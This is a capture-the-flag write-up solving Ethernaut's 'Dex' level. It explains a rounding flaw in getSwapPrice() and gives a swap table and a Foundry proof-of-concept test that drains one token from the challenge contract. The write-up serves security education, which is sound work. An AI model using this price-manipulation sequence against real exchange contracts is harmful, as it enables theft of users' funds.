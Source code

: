 # Level 22 - Dex

## Objectives

- Drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

## Contract Overview

`Dex` is a contract or decentralized exchange platform that deals with token swapping and exchange. The Dex contract has a balance of 100 tokens each.

## Static analysis (slither)

Here are the logs from the slither:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Dex_slither.png)

## Finding the weak spots

The weak spot of the contract is function `getSwapPrice()` that is prone to rounding error and price manipulation attack.

```solidity
  function getSwapPrice(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }
```

This function is taking addresses for both the tokens and the amount of from tokens to be swapped and calculates the amount of to tokens. The following formula is used:
`The number of token2 to be returned = (amount of token1 to be swapped * token2 balance of the contract)/token1 balance of the contract.`

This is the vulnerable function. We will be exploiting the fact that there are no floating points in solidity which means whenever the function will do a division, the result will be a fraction. Since there are no decimals and floating points, the token amount will be rounded off towards zero. Therefore, by making continuous token swaps from token1 to token2 and back, we can decrease the total balance of one of the tokens in the contract to zero. The precision loss will automatically do the job for us.

## Potential attack scenario (hypothesis)

Attacker has to swap all token1 for token2. Then swap all token2 for token1. And repeat this process until he drains all token1.

## Plan of the attack and calculations

1. Initially Dex has a balance of 100 for both the tokens and the attacker has a balance of 10 each.
2. The attacker makes a token swap from token1 to token2 for 10 tokens. Dex will have 110 token1 and 90 token2 whereas the user will have 0 token1 and 20 token2.
3. Now, when the user swaps 20 token2 for token1, the formula will return the following:
   `Number of token1 tokens returned = (20 * 110)/90 = 24.44`
   This value will be rounded off to 24. This means Dex will now have 86 token1, and 110 token2 and attacker will have 24 token1 and 0 token2.
4. On each token swap, we are left with more tokens than held previously.
5. Once reached a value of 65 tokens for either token1 or token2, attacker can do another swap to drain the balance of one of the tokens from Dex. `((65\*110)/45 = 158)`

| Dex | User
|token1 | token2 | token1 | token2
|100 | 100 | 10 | 10
|110 | 90 | 0 | 20
|86 | 110 | 24 | 0
|110 | 80 | 0 | 30
|69 | 110 | 41 | 0
|110 | 45 | 0 | 65
|0 | 90 | 110 | 20

This means that in the final step if attacker needs to drain 110 token1, the amount of token2 to be swapped is `(65 * 110)/158 = 45`. This will bring the token1 balance of the Dex to 0.

## Proof of Concept

Here is a simplified version of the unit test exploiting the vulnerability ([complete version here](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/test/22-Dex.t.sol))

```solidity
    // Approve the dex to manage all of our token
        token1.approve(address(level), 2 ** 256 - 1);
        token2.approve(address(level), 2 ** 256 - 1);

        emit log_named_uint(
            "Token1 balance of Dex before attack is",
            level.balanceOf(address(token1), address(level))
        );

        emit log_named_uint(
            "Token2 balance of Dex before attack is",
            level.balanceOf(address(token2), address(level))
        );

        level.swap(address(token1), address(token2), 10);
        level.swap(address(token2), address(token1), 20);
        level.swap(address(token1), address(token2), 24);
        level.swap(address(token2), address(token1), 30);
        level.swap(address(token1), address(token2), 41);
        level.swap(address(token2), address(token1), 45);

        assertEq(
            token1.balanceOf(address(level)) == 0 ||
                token2.balanceOf(address(level)) == 0,
            true
        );

        emit log_string(
            "--------------------------------------------------------------------------"
        );

        emit log_named_uint(
            "Token1 balance of Dex after attack is",
            level.balanceOf(address(token1), address(level))
        );

        emit log_named_uint(
            "Token2 balance of Dex after attack is",
            level.balanceOf(address(token2), address(level))
        );
```

Here are the logs from the exploit contract:

![alt text](https://github.com/matrix-0wl/ethernaut-solutions-foundry/blob/master/img/Dex.png)

## Recommendations

When doing calculations related to any sensitive asset such as tokens, careful attention should be paid to precision since there are no floating points in solidity, precision is lost as numbers are rounded off leading to exploits.

## References

- [Blog Aditya Dixit](https://blog.dixitaditya.com/series/ethernaut)
- [Blog Stermi](https://stermi.xyz/blog/ethernaut-challenge-20-solution-shop)
- [Blog cmichel](https://cmichel.io/ethernaut-solutions/)
- [D-Squared YT - Ethernaut CTF Series](https://www.youtube.com/watch?v=_ylKN2R_o-Y&list=PLiAoBT74VLnmRIPZGg4F36fH3BjQ5fLnz)
- [Smart Contract Programmer YT - Ethernaut](https://www.youtube.com/playlist?list=PLO5VPQH6OWdWh5ehvlkFX-H3gRObKvSL6)
- [Mastering Ethereum book](https://github.com/ethereumbook/ethereumbook)

## Acknowledgements

The structure of my reports is based on the insights provided by:

- [ChmielewskiKamil](https://github.com/ChmielewskiKamil/ethernaut-foundry)
- [Joran Honig Twitter thread](https://twitter.com/joranhonig/status/1539578735631949825?s=20&t=Kp6iDNXfRKQUBbsb_Yj5SQ)
